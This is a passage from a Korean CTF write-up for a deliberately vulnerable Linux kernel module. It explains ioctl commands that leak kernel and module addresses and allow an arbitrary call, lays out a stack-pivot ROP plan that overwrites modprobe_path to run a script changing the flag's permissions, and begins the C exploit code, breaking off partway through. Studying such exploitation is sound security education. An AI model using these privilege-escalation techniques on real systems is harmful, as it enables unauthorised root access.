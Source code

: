 ```c
        copy_to_user(user_input[0], v4);
      break;
  }
  return 1LL;
}
```

ioctl 의 command 는 총 3개이다. 각 command는 다음과 같은 역할을 한다. 

+ **0x1001**: commit_creds 심볼의 주소를 반환한다. 
+ **0x1002**: `input_buffer + 0x16` 주소의 8바이트 값을 읽어 `ops` 심볼의 상대적인 곳의 주소를 반환한다. 
+ **0x1003**: `input_buffer + 0x16` 주소의 8바이트 값을 읽어 `ops` 심볼의 상대적인 곳의 주소를 호출(call)한다.

보다시피 제목만큼 대놓고 취약점을 주는 코드이다. `0x1001` command 로 커널의 base address 를 알 수 있고, `0x1002` command로 해당 커널 모듈이 올라간 주소를 확인할 수 있다.

마지막으로 `0x1003`command 를 이용해 임의의 영역 코드를 실행시킬 수 있다. 

## **2. Exploit Flow**

취약점은 다 나왔으니, 이 취약점을 이용하여 커널을 익스플로잇을 해보자. 

내가 계획한 익스플로잇 계획은 다음과 같다 .

1. `0x1001`, `0x1002` command 로 커널 베이스와 모듈의 베이스 주소 가져오기
2. 모듈 주소 값과 커널 주소의 값을 알아내 `user_input + 16` 에 넣을 상대 값 계산하기
    + `0x1003` command 를 통해 call 할 곳을 계산한다. 
    + `call` 할 곳은 커널의 `xchg esp, eax; ret` 가젯이 있는 주소
3. `mmap()` 함수를 이용하여 원하는 주소에 공간을 할당한다. 
4. `xchg esp, eax` 가젯을 이용해 `mmap()` 으로 할당한 공간의 주소를 `rsp`의 값으로 만든다. (fake stack을 만든다.)
5. 만들어진 fake stack 에서 rop를 수행하여 `modprobe_path`를 `/tmp/x`로 덮어쓴다. 
6. 유저모드로 전환 후, `\xff\xff\xff\xff` 바이트 문자열을 `/tmp/trigger` 에 쓴다. 
7. `/tmp/trigger` 를 실행해 `/tmp/x` 의 실행을 유도하고, `/tmp/x` 에는 flag 의 권한을 `777`로 바꾸는 쉘 스크립트를 작성한다. 
8. flag를 읽는다. 

2-4 과정은 아는사람은 아는 익스플로잇 기법인 **stack pivot** 공격 기법이고, 5-8 번 과정은 **[modprobe_path overwrite](/study/linux_kernel/basic/modprobe_path)** 기법이다. 

## **3. leak base address**

이제 실제 코드를 짜보자. 

먼저 `0x1001`, `0x1002` command 를 이용해 커널과 모듈 베이스를 알아오는 코드이다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>

#define DEVICE_PATH "/dev/babykernel"
#define LEAK_COMMIT_CREDS 0x1001
#define LEAK_MODULE_OFFSET 0x1002
#define JUMP_POINTER 0x1003

uint64_t ioctl_control(uint64_t leak_buffer[3], unsigned long command)
{
    int fd;
    ssize_t ioctl_ret;

    fd = open(DEVICE_PATH, O_RDWR);
    if (fd < 0)
    {
```